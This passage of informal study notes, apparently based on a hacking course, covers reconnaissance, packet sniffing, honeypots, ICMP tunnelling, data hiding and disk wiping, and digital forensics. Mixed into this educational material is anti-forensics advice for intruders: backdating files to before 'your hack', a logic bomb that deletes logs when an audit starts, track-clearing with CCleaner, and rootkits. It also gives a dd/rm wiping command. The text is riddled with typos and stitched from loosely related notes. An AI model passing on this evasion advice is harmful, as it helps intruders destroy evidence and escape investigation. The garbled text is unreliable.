  and open ports, isn't enough these days. An Advanced Persistent Threat will
  try to learn as much about your network as it can. This information
  includes - 

  - Firewall brand, model, firmware version, and software patches that exists

  - Remote connections authentication, access privileges, and processes.

  - Other servers that connect to the network, this includes Email HTML,
    back-up, redundant, off-site, hired or out-sourced services, and even
    contractors that may have used your network or are using it now.

  - Printers, fac machines, photocopiers, wireless routers, and network
    connections in your company waiting room.

  Even though we have covered many topics in this lesson, system identification
  covers an even broader area. There is quite a bit of information that flows
  through networks that identify parts of each device. Each device on the
  network can be exploited and thus used as an entry point for an attacker.
  Approaching this daunting challenge requires more than just software.
  Research your own equipment and learn as much as you can. That knowledge will
  pay off.

  OPN (without password) and WEB (low encryption) is easy hacking

  WPA is very hard to hack, there are three types of attacks

  The common vulnerabilities and exposures database from mitre is
  http://cve.mitre.org

  Another page to visit is http://exploit-db.com

  A Remote Access Toolkit is Poison Ivi, It's very useful for troubleshooting,
  training and breaking into a computer from a distance.

  Sniffing packets is not as simple as plugging your computer into the network
  and capturing traffic. It's often more difficult to decide where to place the
  sniffer than it is to analyze the traffic. The main devices that handle
  network traffic do so differently, so you have to be aware of the network's
  physical setup. So, how do you collect traffic from the network?
  
  First, if you're going to have to collect everyone's traffic, on a wired
  Ethernet network you'll need a mirror port or a trunk port on a switch.
  Otherwise, on a switched network, the only traffic you'll see is a broadcast
  traffic and your own. But be very clear: WiFi is not switched networking.
  WiFi functions like a hub: you can see everyone's packets.
  
  If you're attached to a mirror port or have put your WiFi card into
  promiscuous mode, a packet sniffer applicatoin can monitor network traffic on
  all computers on the network.

  A packet sniffing program is designed to capture the traffic packets that
  move along the network. You get to ckeck out the packet content and make some
  determinations about the validity of the packet. In Linux/Mac/Unix, the
  natice *tcpdump* command can capture traffic, ave it to a file, look for
  search strings and a lot more. WHen you're dealing with automated processess
  (come on, you're a hacker, you want to automate everything), using tcpdump at
  the command line is the way to go.

  The eXif.er, just a web based exif editor. A page when we can see the
  metadata of a image.

  Full-on GUI tools like Wireshark are often called network protocol analyzers.
  They let you capture an interactively browse the traffic running on a
  computer network. Wireshard is the de facto (and often de jure [by law])
  standard across many industies and educational institutions. 

  To find anomalies on your network when you might be under attack, you'll have
  to know what daily normal network activity looks like. With your network
  operating smoothly, you can baseline your activities. Deviations from this
  baseline mean something is amiss.

  NetworkMiner is a good alternative as wireshark

  Now that you can see network traffic, you have to figure out what it all
  means. Wireshark provides a number of charts that are valuable in
  establishing what normal network traffic looks like. There are a lot of
  different statistics to consult: click on the Statistics field in the menu
  bar at the top of the screen.
  
  These statistics are compilations of data Wireshark observer. Conversations
  and endpoints identify sources of significant amounts of traffuc. This tells
  you what the traffic flow of your network should look like. Some items you
  might consider looking at include ARP or ICMP packets. Large numbers of such
  packets might suggest a problem.

  Basic global statistics are available in the summary window such as:

  - Capture file properties 
  - Capture time
  - Capture filter information
  - Display filter information

  Protocol Hierarchy:

  The protocol hierarchy shows a dissection by OSI layer of the displayed data.
  
  Conversations:
  
  If you use a TCP/IP application or protocol, you should find four active tabs
  for Ethernet, IP, TCP and UDP conversations. A "conversation" represents the
  traffic between two hosts. The number in the tab after the protocol indicate
  the number of conversations, for example "Ethernet:6".

  Ethernet Conversations, IP conversations and TCP conversations.
  
  As you review this information from your computer, which programs might be
  involved in these conversations, iin light of information from the lesson on
  Ports and Protocols?

  The Endpoints provide statiistics about received and transmitted data on a
  per machine basis. The number after the protocol indicates the number of
  endpoints. For instance: "Ethernet:6".
   
   Intrusion Detection Systems:

   You've probably realized that, to use a packet sniffer to detect unauthorized
   activity in real time, you'll have to sit at your computer, watching the
   output of the packet sniffer and desperately hoping to see some kind of
   pattern. An intrusion detection system (IDS) does this job for you. IDSs
   combine the ability to record network activity with sets of rules that allow
   them to flag unauthorized activity and generate real-time warnings.

   Honeypots and Honeynets:

   A honeypot is a computer system or virtual machine that serves no other
   purpose than to lure in hackers. A honeynet is a network of honeypots. In a
   honeypot, there are no authorized users - no real data is stored in the
   system, no real work is performed on it - so, eery access, every attempt to
   use it, can be identified as unauthorized. Instead of sifting through logs to
   identify intrusions, the system administrator knows that every access is an
   intrusion, so a large part of the work is already done.

   Types of Honeypots:

   There are two types of honeypots: production and research.

   Production honeypots are used primarily as warning systems. A production
   honeypot identifies an intrusion and generates an alarm. They can show you
   that an intruder has identified the system or network as an object of
   interest, but not much else. For example, if you wanted to know if bears
   lived near your clearing, you might set out ten tiny pots of honey. If you
   checked them in the morning and found one or more of them empty, then you
   would know that bears had been in the vicinity, but you wouldn't know
   anything else.

   Research honeypots are used to collect information about hacker's activities.
   A research honeypot lures in hackers and then keeps them occupied while it
   quietly record their actions. For example, if - instead of simply documenting
   their presence - you wanted to study the bears then you might set out one
   big, tasty, sticy pot of honey in the middle of your clearing, but then you
   would surround that pot with movie cameras, still cameras, tape recorders and
   research assistants with clipboards and pith helmets.

   The two types of honeypots differ primarily in their complexity. You can more
   easily set up and maintain a production honeypot because of its simplicity
   and the limited amount of information that you hope to collect. In a
   production honeypt, you just want to know that you've been hit; you don't
   care so much whether the hackers stay around. However, in a research
   honeypot, you want the hackers to stay, so that you can see what they are
   doing. This makes setting up and maintaining a research honeypot is is more
   difficult. You must make the system look like a real, working system that
   offers files or services that the hackers find interesting. A bear who knows
   what a honeypot looks like might spend a minute looking at an empty pot, but
   only a full pot full of tasty honey is going to keep the bear hanging around
   long enough for you to study it.

   Honeynets are harder yet; they have to have what appears to be real, live
   traffic on them.

   Building a Honeypot:

   In the most basic sense, a honeypot is nothing more than a computer system
   that is set up with the expectation that it will be compromised by intruders.
   Essentially, this means that if you connect a computer with an insecure
   operating system to the internet, then let it sit there, waiting to be
   compromised, you have created a honeypot. But this isn't a very useful
   honeypot. Its more like leaving your honey out in the clearing, then going
   home to the city. When you come back, the honey will be gone, but you won't
   know anything about who, how, when or why. You don't learn anything from your
   honeypot, unless you have some way of gathering information regarding it. To
   be useful, even the most basic honeypot must have some type of intrusion
   detection system.

   The intrusion detection system could be as simple as a firewall. Normally a
   firewall is used to prevent unauthorized users from accessing a computer
   system, but they also log everything that passes through or is stopped.
   Reviewing the logs produced by the firewall can provide basic information
   about attempts to access the honeypot.

   More complex honeypots might add hardware, such as switches, routers or hubs
   to frther monitor or control network access. They ay also se packet sniffers
   to gather additional information about network traffic.

   Research honeypots may also run programs that simulate normal use, making it
   appear that the honeypot is actually being accessed by authorized users and
   teasing potential intruders with falsified emails, passwords and data. These
   types of programs can also be used to disguise operating systems, making it
   appear, for example, that a Linux based computer is running Windows.

   An improperly configured honeypot can easily be turned into a launching pad
   for additional attacks. If a hacker compromises your honeypot, then promptly
   launches an assault on a large corporation or uses your honeypot to
   distribute a flood of spam, there's a goo change that you will be identifies
   as the one responsible.

   Correctly configured honeypots control network traffic going into and out of
   the computer. A simple production honeypot might allow incoming traffic
   through the firewall, but stop all outgoing traffic. This is a simple,
   effective solution, but intruders will quickly realize it is not a real,
   working computer system. A slightly more complex honeypot might allow some
   outgoing traffic, but not all.

   Research honeypots - which want to keep the intruders interested as long as
   possible - someties use manglers, which audit outgoing traffic and disarm
   potentially dangerois data by modifying it so that it is ineffective.

   www.sicherheitstacho.eu has set up live feeds  of cyber attacks as they
   happen. THe data is based off 180 sensors (honeypots) located around the
   world. The site shows who is attacking who, the amount of data in the attack
   (DDoS), and is updated every few seconds.

   Acrylic WIFI is also a option to analize networks.
   
   When you scan a port, you are really sending a TCP SYN request (Layer 4) to
   see if that port responds. A proper ping uses ICMP, which doesn't use ports.
   Although ICMP rests on top of the Internet Protocol (IP), it is not a layer
   four protocol. This comes in very handy when we get into the firewall and
   network traffic logging.

   Firewalls operate at several levels of the OSI model, restricting or allowing
   data flow based on the criteria that is given. The higher the stack layer,
   the deeper the firewall can inspect the contents of each packet request. At
   the lower layers, the firewall can still intercept and control data movement
   but it doesn't know as uch about the data as it does at the ihgher layers.
   This is where ICMP packets become fun ways to deliver content.

   The technique is known as "ICMP Tunneling." Before we can do much with this
   covert communication, we need some software tools.

   - Wireshark
   - Hping
   
   ICMP packets have plenty of room after the header to store data roughly 41k
   per packer). The idea here is to handcraft ICMP packets loaded with your
   data and send them through a covert ICMP tunnel to the location you want.
   You can generate ICMP packets using hping or nping (from nmap people) and
   insert your payload at the same time. With these ping tools, you can
   customize the Ethernet header, the IP header and the payloads.

   Search for: How ICMP tunnel works?
   
   There are two sides to a tunnel: the sever side and the client side. 

   You would need to get the server-side code onto your target, and run it, for
   this to work. How could you get that code onto a target?.
   
   Once both o these daemons are running host to host, the server will begin
   sniffing for ICMP packets. You will be sending commands through the tunnel to
   the server using ping and the server will respond in turn with ping packets.
   The server daemon will begin collecting your packets and placing the data
   where you have instructed. If the data flow is large, the server will
   establish additional multiple pings. The client side daemon will receive
   transmission updates through the same type of sniffer used on the server.

   With portable drives having ever-higher capacity and smaller sizes,
   physically hiding large amounts of data is straightforward; put the media in
   a safe place away from your house and your computer. 

   before you even think about places to hide your treasure, encrypt the media,
   the data, or both first. Try TrueCrypt.

   If you have small amounts of data, like passwords, private keys, or a secret
   recipe for soup, you can slip that data into places that will not be noticed.
   Don't go so far as trying to hide data in your DNA.

   Malware creators have long known that there is storage space on Window
   systems in the Master Boot Record (MBR). It's not much space but enough to
   hide a private key or a DLL. 

   Swap files are places in media drive that is temporary RAM. The swap file
   space allows the computer to run faster even if it runs out of RAM to execute
   programs. UNIX and Linux set aside a permanent block of media for swap storage. Even if the computer is turned off, this hard drive swap file space can still contain data from previous events.

   Windows swap files (page files) can get quite large and hold pieces of recent
   files. This could be even more dangerous if you were connected to a windows
   based server.

   Windows servers store a significant amount of user data that can be handy to
   the forensic examiner. Take a look at "te p" directories for the swap files.

   Files are stored in clusters. Depending on the operating system, the clusters
   can vary in size. If you created a file on your computer, that file only need
   50% of the cluster's space. This leaves a cluster with open space left. This
   open space within a cluster is called file slack or just slack for short. If
   you delete a file that was in that partial cluster space, that space is still
   available even if the file was deleted.

   The 50% cluster space that was previously occupied with a file, will keep
   that data intact. These data remnants remain in the cluster until it is
   filled with other data. Windows automatically creates slac space as soon as
   any file is created, viewed, odified, or saved.

   Some of the best places to hide data is to hide it in plain sight. File
   modification is just a fancy way of changing the name of a file, altering the
   extension of files, or changing the file attributes. by now, you should
   already know how to change the name of a file.

   You mde a file "Evil Plans" easrlier, now let's get creative. Would you put
   all your passwords in a file and name that file "Passwords?" No, of course
   not. Nor should you pit all of your work files that can be easily identifies.

   When looking to modified files, look at file extensions. File compression is
   an easy say to cover tracks and save space, however, those files will be the
   first one the agents will be checking. So, you will need to alter the file
   extension. This can be accomplished by editing the last three characters of
   the file name.

   Changin a .doc file to a .gid is as simple as changing an .odt file to a
   .avi. Creating the altered files can become tricy and time consuming. Look at
   file sies, created dates, and modified dates to give you ideas of how to
   customize each file. An .odt file should not be a gigabyte in size, as well
   as an .avi file should not be a few kilobytes either.

   An .avi file should be several gigabytes in size.

   Look at the file dates too. The files that were created or accessed within a
   week of the criminal event and after the event should ring a bell in your
   head. Alter those dates to any day at least a year before your hack. If you
   really want to have some fun, change the dates to impossible dates, such as
   30 February or 21 March 2112. 

   Making Data irrecoverable:

   Wash, Rinse, Repeat

   Sanitizing media is inexpensive and provides secure destruction of sensitive
   data. You can eradicate data, wiping those digits off the face of the earth
   using open source software. One of the simplest methods is to encrypt your
   media using True Crypt. Once the entire physical chunk of storage is
   encrypted, it is now somewhat sage to toss that hardware away. The logic is
   that the entire data image cannot be decrypted unless you provide the
   passphrase. Pretty simple, right? If those eighty-give agents get their hands
   on your old media, it is useless to them since you are the only persona who
   can unclock the data. If another person obtains your old media, they will
   have to reformat and repartition it before it can be used.

   There are roughly two standards for proper media destruction. THe first one
   is US DOD 5220.22-M and the other is the Gutmann algorithm. DOD 5220.22 is a
   US National Indultrial Security Program Operating Manualthat provides
   instructoin on destruction of data. The U.S. Department of Defense like to
   destroy things too, so they only authorize complete destructino as a means to
   remove data.

   The Gutmann algorithm, named after Dr. Peter Gutmann and Colin Plumb, gives a
   little more latitude on physical annihilation of hardware. The algorithm
   requires the media to be owerwritten thirty-five times in a manufacture
   specific patter. Different drives require different overwrite patterns.
   ALthough this method is an outstanding researched backed technique, it has
   been outdated due to the size of newer drives and built-in controller
   settings.

   More Software Tools:

   Withing the open source community, there are some great software tools that
   will make your data impossible to recover. THe software will not damage your
   media but will make the data on it unrepairable. When running the software
   you press the "start" button, don't expect to ever see that data again. 

   Boot and Nuke:

   http://www.Dban.org

   Boot and Nuke comes as an ISO image that you brun to a CD and bot your syste
   of it. ONce the software is up and running, you just select which drive you
   want sanitized (nuked). Dban is an industry stanard for bulk data destruction
   and emergency uses. Once Dban has been used on a drive, there is no forensic
   recovery possible.

   Eraser

   Strictly made for Windows, formats and writes several times in a pattern.

   Sderase

   SD is a newcomer to disk wiping. US DOD 5220.22-M mandates that the only
   acceptable method for media and data removal is physical destruction fof the
   media. WE have yet to see any software that can perform physical damage.

   InSSider is also a way of analizing networks.

   Wifi commander es usado en windows para analizar redes.

   In networking there are two types of devices. The first deice is basically a
   "dumb" device, which means that the device doesn't keep a log of activities.
   These devices are common switches, hubs, bridges, and so forth. THey just do
   whatever it is they were designed to do.

   On the other side, we have "intelligent" devices that do keep logs of cerain
   activities and can invoke decisions based on the filters and configuration
   that are installed. THese devices fall into the category of firewalls,
   routers, range extenders, servers, and other network hardware that keeps
   track of data flow. These are the devices that you will need to pay attention
   to because they are the ones that will monitor, record, and possibly disrupt
   your hack. These network roadblocks are covered in depth at other HHS
   lessons.

   You need to know how to deal with these devices to cover your tracks and if
   needed, lead those eight-five agents somewhere else. In your plagging, it
   might help to work backwards on a timelines. This allows you to set the
   amount of time you will be in that network and minimize the changes of you
   being caught by controlling your exposure time.

   You will need to consider multiple ways to properly cover your tracks, before
   you exit the target network. If you just depend on a single method, such as
   erasing all log files, you are leaving yourself open to other tracking
   methods. Erasing log files may sound like a super idea but what happends if
   there are hidden redundant logs? Oopx. We need to choose several courses of
   action that complement each other but do not interfere with your overall
   plans. Consider these points from the perspective of the investigator - and
   that of the perpetrator.

   Planting logic bobs have been used in the past by outsourced vendors who
   haven't been paid, angry admins, and ransom-minded folks. Each of those
   examples place logic bombs where maximun amage to data will occur. ompete
   network data destruction is not a great idea if you want to keep a low
   profile after a network breech.

   A logic bomb that will simply delete or corrupt log files if triggered by an
   audit within so many days (five) or hours after your exit, would work well to
   cover your tracks and not alarm too many people.

   Ccleaner, a free windows based program that has consistently performed well
   for home and commercial users. With this 332KB utility, you can select which
   log files you want to delete or edit on any machine you have admin access to.
   You can even clear your browser history, erasing your own tracks once your
   job is complete. Ccleaner will try to make a system restore point before it
   alters anything. Your two choises are to not allow a restore point or look
   for a file in the root directory labeled "cc_20110928_23232" or something
   like that. Remove and delete that file before leaving, even if that file is
   on your own drive.

   oot kits hide activity and is valuable for Linux-based servers that do not
   have many security holes to use.

   Like any science, digital forensics relies on well-defined methods, which are
   basically concerned with keeping evidence intact. Consider this logic: if
   you've lost control of your evidence, even for a minute, it's not evidence
   any more - it may have been altered.

   Data files can be altered without seeming so. It's easy to change the date,
   check sum, and last access dates after someone has edited a file or a log.
   One of the forensic investigator's duties is to prove that the evidence
   collected has not been altered in any way. Basically, you will need to prove
   that nothing has happened to that data while it was collected, analyzed, in
   custody and at all times.

   This is why it is important to use proven procedures to collect, inspect, and
   handle all data. One simple mistake could render all your hard work
   worthless. This is where a good technique comes into play. By conducting each
   investigator in the same manner and using the same process to document your
   actions, you can prove that nothing has tampered with your evidence.

   Digital Forensic Methodology:

   Digital Forensics is a branch of criminology, so it's all about a procedural
   collection of legally useful evidence. This means that you are only looking
   for evidence that matches the cimre, not poking around just because you can.

   1. Obtain Search Warramt
   2. Evaluate and Secure the scene
   3. Collect the Evidente
   4. Secure the Evidence
   5. Acquire Data
   6. Analyze Data
   7. Assess Evidence and Case
   8. Prepare the Final Report
   9. Testify in the court as an Expert Witness.

   Digital Forensics Process

   When you're investigating a computer crime, you need to base your work on a
   process, such as a policy, procedures, and checklists. Your forensic process
   must be repeatable and hold up to scrutiny by other forensic experts. You
   should develop an investigative process that requires constant documentation
   of everything action that evidence goes through. If it isn't documented, it
   didn't happen.

   An example of this process is:

   1. Identification of evidence (must be documented)
   2. Collection of evidence (Must be documented in Chain of Custody)
   3. Preservation of evidence (Must be documented in Chain of Custody)
   4. Analysis or Interpretation (of course, must be documented)
   5. Communication of your findings and documentation.

   Probably the most critical single document will be the Chain of Custody
   documents, which should state exactly what has been taken as evidence, by
   whom, and who has subsequent custody. Lose custody of your evidence, even for
   a few minutes, and it's probably worthless now.

   www.securitydistro.com
   
   The most common digital forensics/security testing open source or free
   software is in collection of tools such as:

   - Sleuthkit
   - Katana (usb)
   - CAINE
   - DEFT (linux)
   - Helix (e-fence)
   - UNetBootin

   netsh is a nice command to create networks.

   Data Media Analysis:

   Computer forensics investigators use various software tools for analyzing and
   recovering data on various forms of media. There are two basic reasons to
   conduct a forensic analysis: to reconstruct an attack after it occurred, and
   to examine a device that may have been used to carry out a crime.

   The first step before proceeding with any type of data analyze is to make an
   exact image of the evidence and to only work with that image. The software
   tools mentioned earlier allow investigators to perform the following tasks
   and more:

   - Search for text on media devices in file space, slack space, and
     unallocated space.

   - Find and recover data from files that have been deleted or hidden
   
   - Find data in encrypted files

   - Repair FAT (FAT16, FAT32, eFAT) partition tables and boot records

   - Recover data from damaged NTFS partition (Often Linux can do this when Windows
   can't)

   - Joined and split files

   - Analyze and compare files

   - Clone evices that hold data

   - Make data images and backups

   - Erase confidential file securely

   - Efit file using a hex editor (*what is a hex editor?*)

   - Alter file attributes or remove restritive permissions (read or write only)

   Event time is usually crucial, so the offset between the time of the system
   from which evidence has been taken and atomic time should be recorder (don't
   forget the timezone!). Tipically, this is done AFTER evidence has been
   secured since it involves starting the system.
   
   EXIF Data:
   
   Digital photos are encoded with metadata known as EXIF or Exchangeable File
   Image File Format. The original idea of using EXIF was to offer photographers
   precise data on each photo, such as shutter speed, color balance, and time
   and date of the photo. THe amazing array of information includes even more
   additional data if the camera has a GPS activated, including location
   services.

   Most of the cameras that input this tracking data are cellphones. Cell phone
   cameras include in the EXIF, personal data about the users name and if the
   phones GPDD is operating, the EXIF will provide the location where the photo
   was taken.

   Granted, all this information can be spoofed however, few people know about
   this metadata in the first place. One picture posted in social media sight
   can be enough to locate your suspect.

   Imaging Toold:

   Just as with hard disks, any data storage media that could be evidence should
   be imaged and then stored, so your analysis work is only done on the image.
   ou never want to work directly with the original evidence because doing so
   could alter the information on that media. Each of the forensic software
   collections mentioned above can create an exact image of most foms of media.
   If your forensic lab computer can read the media, those software tools can
   image it.

   Use *hashing* techniques to ensure that the binary image is an exact
   bit-for-bit copy of the original. Take a hash of the original. Create the
   image, and then take a hash of the image. If the two hashes are the same, you
   have an identical copy. This should be performed by the same software we
   discussed earlier. It's no use to work on an image that isn't the exact same
   as the original evidence.

   Booting is the process by which a small program actually initializes the
   operating system installed on a computer or on the boting device. Part of
   this process involves looking into the boot sector to find out where the
   operating system is. USB drives can become a boot device as can CD/DVD, ZIP
   drives, flash media cards, and network interface card (using PXE).

   A "live" CD/DVD/USB or other media means the device can boot up the computer.
   As long as the computer BIOS allows or booting from other media, this
   bootable media can load all sorts of operating systems including virtual
   machines and dual booting.

   The ability to boot from several types of media can allow a suspect to boot a
   computer with their own operating system and store all their evidence on that
   same device. This form of boot-up would not leave any trace of activity on
   the suspect's computer and would make your job all that much more difficult.

   Deleted ata:

   A killer usually wants to get rid of the dead body and the weapong they used
   as quickly as possible after the crime. The killer wants to destroy any
   evidente that would link them to the murder. A computer crime suspect will
   want to do the exact same thing. Digital evidence can be removed easier and
   quicker if the suspect knows what they are doing. To delete traces of old
   files, Linux uses the command dd.

   dd if=/dev/zero of=/home/filename

   synch (sync)

   rm /home/filename

   sych

   To delete files and remove traces of those files in Windows:

   1. Using Explorer, select the files or flders and hit the "delete" key.

   2. Clear all files in Temp directory or use software like CCleaner.
 
   3. Once the files are deleted, select the Recycle Bin.

   4. Right click on the Recycle Bin and select "Empty Recycle Bin."

   5. Create a new Restore Point under "Systems" and delete the older Restore
      Points.

   6. Reboot.

   Ccleaner lets you select which log files you want to delete or edit on any
   achine you have admin access to. A suspect can even clear their browser
   history, erasing their own tracks once their job is complete. Ccleaner will
   try to make a system restore point before it alters anything. Your two
   choises are to not allow a restore point or look for a file in the root
   directory labeled "cc_20110928_203957" or something like that. A suspect will
   remove and delete that file before leaving, even i that file is on a portable
   drive.

   Formatting Media:

   Most media needs to be formatted before it can be used for a particular
   operating system. As a rule of thumb, formatting destroys all data that was
   previosly on that media. If you come accross a hard drive or other media that
   was recently formatted. It may contain evidence that the suspect wants to
   remove. With the software tools listed earlier, you have the capabilities to
   recover files and folder from that media.

   There are programs out there that will format the media, write random
   information on the new formatteddrive, reformat and continues this process as
   many times as you wish. Under these extreme conditions, recoverint the
   original files and folders will be quite difficult. *The key to recovering
   anything is to identify this event and media as quickly as possible*.

   Precautions While Collectin Evidence from a Data Storage Device:

   There are the rules for when you're on the opposite side: when it comes to
   collecting media for forensic examination. You will not need a hammer or a
   drill. In this situation, you will need to be careful and non-destructive.

   - Hold the media only by outer edges and avoid scratches or dropping it.

   - Use water-based markers for writing on evidence.

   - Place digital evidence devices in a waterproof and labeled bag.

   - Take special precautions with storage media that are cracked or damaged.

   - Do not rinse media with water to remove surface dirt, possible drug
     contamination, grase, an/or oils.

   - Do not use any type of cleaner based on organic or petroleum solvents near
     the evidence.

   - Create an image of the date on the media and work with the image to prevent
     damage to the original data.

   Steganography A look at security controversy

   The topic of steganography ives you a change to look at how differently
   security experts can think. It is a totally workable means to secretly
   transfer data; it's just never been found in the wild. Is anybody using this
   stuff?.

   When you're performing digital forensic investigatins, it is not enough to
   simply recover photos, documents, videos, audio and VoIP packet data
   contained on the suspect media without also testing that evidence for
   potential hidden evidence such as steganogaphy. While it may appear to be a
   benign picture, that picture may contain a plethora of hidden information.

   Steganography, often referred to as stego, is the ability to hide information
   within transmissions without ayone being able to notice any change or
   modification to the original host without the use of special software tools.
   For example, a picture containing a hidden stego message looks identical to
   the casual viewer and gives no obvious indications that any modifications
   have been made to the original. While similar to encryption in that stego is
   used to hide objects and data, making it unnoticeable and unreadable, stego
   but should not be confused with cryptography. Steganography embeds the
   information in such things as documents or images while cryptography encrypts
   the information using a cypher or encryption key that is used to scramble and
   later unscramble the message.

   In a recent case, stego was used, and detected by the FBI. Ten stego
   criminals were then released to Russia s part of a modern day spy swap. 

   Steganography uses many different techniques from data insertion to
   algorightmic but to make the concept easier to understand, let's just say
   that steganography inserts data into a host file in a manner that does not
   readily change the host file that can be distributed to other persons who can
   then reconstruct the hidden message(s) contained in that host file. While
   graphics, bitmap images in particular are the most used steganography hosts,
   the host can be audio files, videos, or documents as well.

   There are more than 600 known stego creation detection tools available on the
   internet. But even with all the tools, a person who is trained to use a hex
   editor can readily detect steganography "infected" hosts if they have access
   to a library of clean original images, documents, videos and audio files with
   which to compare the suspect hosts against. Steganography detection is also
   aided with the usage of Steganography signature libraries similar to
   anti-virus definition detection as well as the comparison of steganography
   based hash values. Steganography hash values are available at sites such as
   http://www.hashkeeper.org or http://www.stegoarchive.com

   A few examples of common steganography creation tools include S-Toolsv4, JP
   Hide-and-Seek, JStegShell, ImageHide, ES Stego and Dounds Stegonagraphy.

   Whereas StegDetect and Stegbreak are tools used to help detect steganography
   infected hosts. 

   http://Stegano.net

   Read: Dound's Steganography

   Windows Forensics:

   Windows is constantly moving files aorund and modifying them, even the ones
   you are looking for.

   DNS in wireshark shows what pages were navigated.
   
   We'll start this messy affair by covering the different types of volatile and
   non volatile information an investigator can collect from a Windows system.
   This section goes into more details about grabbing and analyzing data in
   memory, the registry, events, and files.

   Volatile Information:

   Information that is lost when a system is powered down or otherwise loses
   power. Volatile information exist in physical memory or RAM, and consists of
   information about processes, network connections, open files, clipboard
   contents, etc. This information describes the state of the system at a
   particular point in time.

   When performing a live analysis of a computer, one of the first things
   investigators should collect is the content of RAM. By collecting the
   contents of RAM first, investigators minimize the impact of their data
   collection activity on the contents of RAM.

   These are some of the specific types of volatile information that
   investigator should collect:

   - System time
   - Open files
   - Logged-on user(s)
   - Network Connections  
   - Process information
   - Process-to-port mapping
   - Process memory
   - Network status
   - Clipboard contents
   - Service/driver information
   - Command history
   - Mapped drives, shares

   Tools for Collecting Volatile Information On Windows:

   To collect volatile information from a Windows system, you could use the
   following free software tools, which belong to the Sysinternals suite provded
   by Microsoft, you can ownload it for free.

   After downloading it, you should install it on the root (C:\) of your
   dforensic workstation hard disk. You'll use these commands (unsurprisingly)
   in the command line interface, like this:

   psloggedon

   This sysinternals program enables you to see who is logged on the system
   locally as well as those users who are logged on remotely.

   time /t command

   Use this command to see the system actual time. Windows shows file time in
   UTC which is also GMT (Universal Time). The file time is shown down to the
   100th nanosecond in a hexadecimal 8 bit format. Windows system time is shown
   in 32 bit, displaying month, day, year, weekday, hour, minute, second and
   millisecond.

   net session

   This command shows not only the names of the users accessing the system via a
   remote logon session but also the IP address and the types of client from
   which they are accessing the system.

   openfiles

   This command lists user logged in to a system remotely; investigators should
   also see what files they have open; if any. This command is used to list or
   disconnect all files and folders that are open on a system.

   psfile

   This program also belongs to the Sysinternals suite discussed above. It's a
   command line program that shows a list of files on a system that are open
   remotely. It allows a user to close open files either by name or by file
   identifier.

   net file

   This command display the names of all open shared files on a system and the
   number of files locks, and closes individual shared files and removes file
   locks.

   You might want to look for deleted files is in the thumbs preview database
   for windows. Look for a file listed as thumbs.db_. This will show you all the
   thumbnail images of files viewer in explorer as thumbnails.

   Non-volatile Information:

   Non-volatile information is kept on asecondary storage devices and persists
   after a system is powered down. It's not perishable and can be collecte after
   the volatile information is collecte. The following are some of the specifit
   type of non-volatile information that investigators should collect:

   - Hidden files
   - Slack space
   - Swap files
   - Index.dat files
   - Meta Data
   - Hidden ADS (Alternate Data Streams)
   - Windows Search Index
   - Unallocated clusters
   - Unused partitions
   - Registry settings
   - Connected devices
   - Event logs

   Anytime an object (A file) is acted upon by another object (an intruder),
   there will be residual effects. The effects might not be easy to locate or
   detect, but those actions (of deleting or modifying) will cause some other
   results elsewhere. To reduce detectable actions, a professional hacker will
   use the tools that are already built into the system. They won't introduce
   new software, instead they will use the system tools in a manner that seems
   normal.

   Linux Slack

   Linux file systems do contain slack space, just as Windows does. The slack
   space is mch smaller, roughly 4K per block. This means that a suspect can
   ohide about 4KB of data in a small file block. The same techniques we
   discussed in Windows slack space can be applied to Linux slack space. This
   space is undetectable by filesystem and disk usage tools. Then data is
   removed or deleted, the slack space will remain wth the contents of any
   hidden data.

   Silly String

   Text strings in Linux are fairly easy to search for and locate using the
   command:

   /dev/hdaX | grep 'text ou want to look for'

   Depending on the size of the media, this search can take quite a while
   because it will look for that text everywhere in that partition. You will not
   want to use a hex editor, since this will take even longer to perform. A hex
   editor can be useful to determine the contents of that media, though.

   Grep

   Grep is an immensely powerful Linux tool. It is used to find certain lines
   within a file. This allows you to quickly find files that contain certain
   things within a directory or file system. It also allows for searching on
   regular expressions. There are search patterns that allow you to specify
   criteria that search much match. For example: finding all strings in the
   dictionary that start with "s" and finish with "t" to help with doing a
   crossword.

   grep ^s.*t$ /usr/share/dict/words

   More Command-line Tools:

   THe "Live" forensic tools we discussed earlier are complete Linux forensic
   toolkits. Linux itself has a number of simple utilities for imaging and basic
   disk analysis, including the following:

   dd: The dd command can copy data from any disk that Linux can mount and
   access.

   This command can make a bit-stream disk-to-disk file, disk-to-image file,
   block-to-block copy/block-to-file copy.

   sfdisk and fdisk: Displays the disk structure.

   grep: Searches files for instances of an expression or pattern.

   md5sum and sha1sum: Creates and stores an MD5 or SHA-1 hash of a file or list
   of files (including devices).

   file: Read file header information to tell its type, regardless of name or
   extension.

   xxd: A command-line hex dump tool

   ghex and khexedit: GNome and KDE hex editors

  Finding a Haystack in a Needle:

  Open source forensic software includes powerful search tools that let you
  search for many combinations and permutations of factors for deep data
  searching. THere is no need to buy expensive commercial tools, which is the
  wonderful part of using Open Source Software. Linux provides you with plenty
  of scope to construct similar tools using standard utilities. The following
  text details the use of find, grep and string, and then describes the use of
  the pipe to combine them.

  Encryption, Decryption and File Formats

  Many of the files that you will come across will not be immediately readable.
  Most programs have their own propietary file formats, while others use
  standard formats - for example the standatd picture formats - gid, jpg, png,
  etc. Linux provides an excellent utility to help you to determine what a given
  file is. Remember the file command from above?

  Command Line Switch - Effect

  -k                    Don't stop at the first match, keep going
   
  -L                    Follow symbolic Links

  -z                    Attempt to look inside compressed files

  These switches let you try to read a file. THere are a number of file
  conversion utilities available to you under linux, and even more available on
  the internet, as well as a number of file viewers for various formats.
  Sometimes it may require more than one step to get to a place where you can
  really work with data - try to think laterally!.

  Occasionally, you will cme across files which have been encrypted or password
  protected. The complicatoin that this presents varies, from encryption that is
  easily broken to stuff that would even give the best decryption professionals
  a headache. It pays to examine the area surrounding the computer that you are
  dealing with. People aren't very good at remembering passwords; they may well
  be written down somewhere nearby.

  Common choises for passwords also involve: pets, relatives, dates, telephone
  numbers, car registrations, and other simple combinations. People are also
  reluctant to use more than one or two passwords for everything, so if you can
  reverse engineer a password on one file or application, try it on the others.
  It is highly likely to be the same. 

  Examples of Digital Forensics at Work:

  Based on the DNS of a network, one can know what the ISP is
  
  Morgan Stanley: In a FLorida court case, Morgan Stanley repeatedly failed to
  turn over data related to a fraud suit against them. 1423 backup tapes were
  conecaled by MS that contained emails detailing the fraud. A fired MS
  technician revealed to the court that those tapes existed and many other tapes
  were deliberatly mislabeled. Forensic examination confirmed this intentional
  fraud. 

  David Kernell: The defendant hacked into Sarah Palin's Yahoo email account.
  Before the FBI arrived to investigate this crime, Kernell uninstalled his web
  browser and fragmented his hard drive. The government was able to provide
